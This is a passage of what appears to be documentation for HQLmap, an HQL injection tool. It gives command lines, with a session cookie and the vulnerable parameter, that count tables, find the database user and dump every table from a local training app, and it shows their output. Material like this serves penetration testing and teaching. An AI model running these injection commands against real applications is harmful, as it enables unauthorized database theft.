 ## Fingerprinting options 

### Retrieving the count of a table

```
python HQLmap.py --url="http://localhost:9110/ropeytasks/task/search?q=test&search=Search" --param=q --cookie="JSESSIONID=D50C4AD5BA0F05FA426CF660D9E069B7" --message="Eggs, Milk and Cheese baby, yeah." --T=User --count
```

Or for all tables :

```
python HQLmap.py --url="http://localhost:9110/ropeytasks/task/search?q=test&search=Search" --param=q --cookie="JSESSIONID=D50C4AD5BA0F05FA426CF660D9E069B7" --message="Eggs, Milk and Cheese baby, yeah." --tables --count
```

And the output : 

```
[!] Table User has been found.
[!] Count(*) of User : 3
```

### Retrieving user of the database 

To do such action, you need to specify a table (or all with --tables flag) and add --user flag this way :

```
python HQLmap.py --url="http://localhost:9110/ropeytasks/task/search?q=test&search=Search" --param=q --cookie="JSESSIONID=D50C4AD5BA0F05FA426CF660D9E069B7" --message="Eggs, Milk and Cheese baby, yeah." --T=User --user
```

And the output (after few secs) :

```
[!] Table User has been found.
[!] Username of Database found : SA
```

To retrieve the user, I implemented an algorithm really similar to a "variable" dichotomy. 

### Dumping database 

#### All tables from database

```
python HQLmap.py --url="http://localhost:9110/ropeytasks/task/search?q=test&search=Search" --param=q --cookie="JSESSIONID=83C59DCB04A6DC954E4E1EEC2BB36EF6" --tables --columns --dump
```

And the output :

```
(redacted)
[Task]
  [Name]
     - Bob&#39;s shopping
     - Alice&#39;s shopping
[Task]
  [User_Id]
     - 1
     - 2
[User]
  [Id]
     - 1
     - 2
```